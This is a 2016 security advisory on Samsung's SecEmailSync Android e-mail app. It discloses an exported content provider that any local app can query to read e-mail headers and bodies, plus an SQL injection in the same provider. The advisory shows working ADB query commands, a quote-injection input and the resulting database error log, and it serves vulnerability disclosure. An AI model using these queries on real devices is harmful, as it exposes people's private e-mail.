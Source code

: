 # Exposed provider and SQLi in SecEmailSync #

* _Authors_: Roberto Paleari ([@rpaleari](https://twitter.com/rpaleari)) and Aristide Fattori ([@joystick](https://twitter.com/joystick))
* _Samsung ID_: SVE-2015-5081
* _Notification date_: 29/10/2015
* _Release date_: 02/02/2016

We identified some vulnerabilities and insecure settings in
Samsung proprietary e-mail application, `SecEmailSync`, distributed with recent
Android-based Samsung phones. These vulnerabilities can be exploited by any
local application to access a victim's e-mail messages. The attacker App does
not require any specific privilege, so the attack is quite stealthy.

## Exposed content provider ##

Recent Samsung Android phones include a proprietary application, named
`SecEmailSync` (package `com.samsung.android.email.sync`). This App exposes
multiple services and content providers, some of which are accessible by any
unprivileged local applications.

Among these, we focused on the content provider `.homecard.OtherProvider`. The
relevant manifest entry follows:

	<provider android:authorities="com.samsung.android.email.otherprovider" android:exported="true"
	android:name="com.samsung.android.email.sync.homecard.OtherProvider"/>

As can be seen from this snippet, this provider is exported and can thus be queried
by any other local application, without requiring any specific privilege.

We investigated the inner workings of this provider and detected it can be
abused to access e-mail messages handled by Samsung proprietary application
(`SecEmail`).

As an example, the following ADB command demonstrates how it is possible to
query the content provider to extract the e-mails sent by a given sender (in
this case, `bobby@mysite.it`):

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/header --where bobby@mysite.it
	Row: 0 timeStamp=1446119267000, subject=Test email, _id=1997

URI `content://com.samsung.android.email.otherprovider/body` also gives access
to the e-mail body:

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/body --where bobby@mysite.it
	Row: 0 htmlContent=NULL, textContent=Email body

It is not even required to know the e-mail address of a valid sender, as
passing "`@`" as the e-mail address would suffice to match all the e-mails
available.

## SQL injection ##

Even worse, the very same content provider is affected by a SQL injection
(SQLi) issue. As an example, the following query triggers the vulnerability:

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/body --where "test@me'"

When this query is processed, the following messages are recorded in the
Android logs (logs have been truncated due to space contraints):

	E/DatabaseUtils( 5454): android.database.sqlite.SQLiteException: unrecognized token: "') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10" (code 1): , while compiling: SELECT timeStamp, subject, _id FROM Message WHERE (fromList like '%test@me'%') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10
	E/DatabaseUtils( 5454): #################################################################
	E/DatabaseUtils( 5454): Error Code : 1 (SQLITE_ERROR)
	E/DatabaseUtils( 5454): Caused By : SQL(query) error or missing database.
	E/DatabaseUtils( 5454):		(unrecognized token: "') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10" (code 1): , while compiling: SELECT timeStamp, subject, _id FROM Message WHERE (fromList like '%test@me'%') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10)
	E/DatabaseUtils( 5454): #################################################################
	E/DatabaseUtils( 5454):		at android.database.sqlite.SQLiteConnection.nativePrepareStatement(Native Method)
	....
	E/DatabaseUtils( 5454):		at com.samsung.android.email.provider.provider.database.AbsEmailProvider.query(AbsEmailProvider.java:1986)

The SQLi can be obviously exploited to extract arbitrary data from the SQL
tables managed by the content provider.

## Affected devices ##

We confirm these issues affect the following device models. Other models and
firmware versions are probably affected as well, but they were not tested.

* SM-G920F, build G920FXXU2COH2 (Galaxy S6)

The vulnerabilities discussed in this advisory have already been patched by
Samsung, in their January Android Security Update
([SMR-JAN-2016](http://security.samsungmobile.com/smrupdate.html#SMR-JAN-2016)).
